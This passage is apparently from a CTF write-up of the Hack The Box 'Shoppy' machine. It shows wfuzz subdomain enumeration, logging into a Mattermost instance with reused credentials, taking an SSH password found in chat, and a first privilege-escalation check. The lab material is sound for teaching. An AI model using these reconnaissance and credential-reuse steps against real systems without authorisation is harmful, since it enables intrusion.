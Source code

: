 So I kept looking around and fuzzing more directories/subdomains, at eventually one of them clicked using `wfuzz` and found `mattermost` subdomain!! so I added it to my `/etc/hosts` file and tried connecting to the page

```shell
└─$ wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb' -H "Host: FUZZ.shoppy.htb" --hw 11

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```

It took me to a docker deployed Mattermost, here I tried `josh`'s credentials and it logged me in, I navigated through and found some conversations between Josh and Jaeger, a CEO of this organization, and found that Jaeger sent Josh credentials to log into the machine with the username `jaeger` and password `Sh0ppyBest@pp!`!

I tried SSH connection agian with these new credentials, and I'm in!

```shell
└─$ ssh jaeger@$IP        
jaeger@10.129.208.171's password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jaeger@shoppy:~$ 
```

and I got the user flag!

---

## Privilege Escalation

I started with `sudo -l` to see if I have permissions to run any special commands and/or programs:

```shell
jaeger@shoppy:~$ sudo -l
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$ 
```
